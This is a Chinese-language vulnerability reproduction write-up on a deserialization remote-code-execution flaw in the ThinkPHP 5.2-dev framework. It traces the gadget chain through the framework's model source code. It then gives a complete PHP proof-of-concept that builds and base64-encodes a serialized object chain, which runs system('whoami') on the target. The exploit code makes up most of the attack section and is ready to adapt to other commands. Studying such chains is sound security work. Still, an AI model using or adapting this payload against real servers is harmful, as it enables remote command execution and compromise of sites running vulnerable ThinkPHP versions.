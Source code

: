 Thinkphp 5.2.\-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=5.2.-dev v5.2

### poc演示截图

![](resource/Thinkphp5.2.-dev反序列化漏洞/media/rId27.png)

### 调用链

![](resource/Thinkphp5.2.-dev反序列化漏洞/media/rId29.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到\$data可控

    public function toArray(): array
    {
    。。。
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
       if ($val instanceof Model || $val instanceof ModelCollection) {
         // 关联模型对象
         if (isset($this->visible[$key])) {
          $val->visible($this->visible[$key]);
         } elseif (isset($this->hidden[$key])) {
          $val->hidden($this->hidden[$key]);
         }
         // 关联模型对象
         $item[$key] = $val->toArray();
       } elseif (isset($this->visible[$key])) {
         $item[$key] = $this->getAttr($key);
       } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
         $item[$key] = $this->getAttr($key);
       }
    }
    。。。
    public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = true;
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }
    public function getData(string $name = null)
       {
           if (is_null($name)) {
               return $this->data;
           }

           $fieldName = $this->getRealFieldName($name);

           if (array_key_exists($fieldName, $this->data)) {
               return $this->data[$fieldName];
               ...
           }
       }
    protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
    }

可以看到getAttr函数中的\$value可控，那么导致\$this-\>getValue(\$name,
\$value, \$relation);这里的三个参数都可控，跟进\$this-\>getValue(\$name,
\$value, \$relation);

    protected function getValue(string $name, $value, bool $relation = false)
    {
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);
        $method    = 'get' . App::parseName($name, 1) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {
           if ($relation) {
             $value = $this->getRelationValue($name);
           }

           $closure = $this->withAttr[$fieldName];
           $value   = $closure($value, $this->data);

这里\$fieldName、\$this-\>withAttr，导致\$closure也可控，最终直接产生RCE。如下图

![](resource/Thinkphp5.2.-dev反序列化漏洞/media/rId31.png)

补充：

    <?php

    $a = array();
    system('whoami',$a);

![](resource/Thinkphp5.2.-dev反序列化漏洞/media/rId32.png)

![](resource/Thinkphp5.2.-dev反序列化漏洞/media/rId33.png)

### poc v5.2.\-dev

    <?php
    namespace think\process\pipes {
        class Windows
        {
            private $files;
            public function __construct($files)
            {
                $this->files = array($files);
            }
        }
    }

    namespace think\model\concern {
        trait Conversion
        {
            protected $append = array("Smi1e" => "1");
        }

        trait Attribute
        {
            private $data;
            private $withAttr = array("Smi1e" => "system");

            public function get($system)
            {
                $this->data = array("Smi1e" => "$system");
            }
        }
    }
    namespace think {
        abstract class Model
        {
            use model\concern\Attribute;
            use model\concern\Conversion;
        }
    }

    namespace think\model{
        use think\Model;
        class Pivot extends Model
        {
            public function __construct($system)
            {
                $this->get($system);
            }
        }
    }
    namespace{
        $Conver = new think\model\Pivot("whoami");
        $payload = new think\process\pipes\Windows($Conver);
        echo base64_encode(serialize($payload));
    }
    ?>

四、参考链接
------------

> <https://www.t00ls.net/thread-54324-1-1.html>
